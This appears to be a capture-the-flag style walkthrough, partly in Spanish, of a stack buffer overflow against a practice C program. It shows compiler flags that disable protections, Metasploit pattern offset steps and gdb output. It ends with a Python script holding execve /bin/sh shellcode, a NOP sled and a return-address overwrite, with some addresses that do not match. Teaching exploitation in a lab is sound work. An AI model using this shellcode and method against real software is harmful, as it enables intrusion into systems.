 
# 1 Buffer overflow:

Compile example
```shell
gcc -g -fno-stack-protector -z execstack -mpreferred-stack-boundary=4 -o reto reto.c
```

Execute compiled software with gdb:
```shell
gdb ./reto
```

input 100 E characters with python to reto
```shell
run $(python -c 'print ("E" * 100)')
```

Run metasploit module:
```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 130
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac
3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
```

On debuger run pattern created with metasploit module:
```shell
gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
Starting program: /home/darthv/Downloads/scripts/scripts/reto Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A

Program received signal SIGSEGV, Segmentation fault.
0x00005555555551d5 in main (argc=2, argv=0x7fffffffe6f8) at reto.c:18
18	}
(gdb) 
```

We've got a segmentation faul, buffer has been overfloaded. 

Let's check where buffer overflow has been, in other words, we want to know the teturn memmory addreess.
```shell
(gdb) x/xw $rsp #64 bits example, if we want 32 we'd use esp.
0x7fffffffe5e8:	0x41306541
(gdb) 
```

Let's get the exactly overflow point. We send a 130 string characters with. Remember var has only 100 chars defined: ``char buffer[100];``` Vars has bit more memory as has been defined, so now let's get the exactly overflow point (offset) in order to know exactly how many characters we need to overflow. Run patter_offest.rb with -q memmory address got from 130 chars:

```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 41306541 -l 130
[*] Exact match at offset 120
```

This means that from all 130 chars we try before, when we get 120 chars is the exactly overfloint point, this is the direcction we need. To do that we need to dissamble or get the function premio, to know the function premio address: 

```shell
(gdb) disas premio
Dump of assembler code for function premio:
   0x0000555555555159 <+0>:	push   %rbp
   0x000055555555515a <+1>:	mov    %rsp,%rbp
   0x000055555555515d <+4>:	lea    0xea4(%rip),%rax        # 0x555555556008
   0x0000555555555164 <+11>:	mov    %rax,%rdi
   0x0000555555555167 <+14>:	call   0x555555555040 <puts@plt>
   0x000055555555516c <+19>:	nop
   0x000055555555516d <+20>:	pop    %rbp
   0x000055555555516e <+21>:	ret    
End of assembler dump.
(gdb) 
```

We've got the first address memory from premio function, the first one: 0x0000555555555159, exactly: 555555555159.
Now we're going to run the same python command we run before, but now with the exactly offset chars lenght (120) and with the address premio converted from: 555555555159. to \x59\x51\x55\x55\x55\x55. This convertion is for intel little endian, so we only need to put the memmory adreeces inverted addin x.

```shell
(python -c 'print ("A" * 120 + "\x59\x51\x55\x55\x55\x55")')

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYQUUUU
ANGEL¡¡¡ has alterado el flujo del programa

Program received signal SIGSEGV, Segmentation fault.
```

# 2 GET SHELL CODE:
Check [shell](shell.py) code and get executable attributes.

```shell
(gdb) run $(./shell.py)
Starting program: /home/darthv/Downloads/scripts/scripts/reto $(./shell.py)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
0x00005555555551d5 in main (argc=2, argv=0x7fffffffe6a8) at reto.c:18
18	}
(gdb) 

```

We'v got memory address argv=0x7fffffffe6a8. Now lets do break point just before strcpy, before print, this will get the addreess memory where we need to put the shell code:
```shell
(gdb) list
13	         return -1;
14	    }
15	    strcpy(buffer,argv[1]);
16	    printf ("%s\n",buffer);
17	    return 0; 
18	}
e9	
(gdb) break 15
Breakpoint 1 at 0x5555555551a9: file reto.c, line 15.
(gdb) 

```

We get memory address where we want to put shell code, we need to change [shell.py](shell.py) If we run shellp.py again with break point we've get check memory addres, after we need the stack return memmory address

``shell
(gdb) x/40x $rsp
0x7fffffffe510:	0xffffe6a8	0x00007fff	0x00008000	0x00000002
0x7fffffffe520:	0x00000000	0x00000000	0x00000006	0x0000009e
0x7fffffffe530:	0x0000000a	0x0000000c	0x00000000	0x00000000
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0xf7fe6b60	0x00007fff
0x7fffffffe580:	0x00000000	0x00000000	0xf7ffdab0	0x00007fff
0x7fffffffe590:	0x00000002	0x00000000	0xf7dca290	0x00007fff
0x7fffffffe5a0:	0xffffe690	0x00007fff	0x5555516f	0x00005555
(gdb) 
```

What is the return address we need to atack? used to be the 3rd (empty one)
0x 7f ff ff ff e5 30 -> \x30\xe5\xff\xff\xff\x7f

Now let's change [shell.py](shell.py) with rsp (return stack pointer) memory address and change to 120 characters:
```python
#!/usr/bin/python
nops = '\x90' * 64
shellCode = (
'\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69' +
'\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05'
)
relleno = 'A' * (130 - 64 - 29)
regreso ='\x50\xe2\xff\xff\xff\x7f'
print (nops + shellCode + relleno + regreso)
```

Now clear break point and run shell.py:

```shell

```

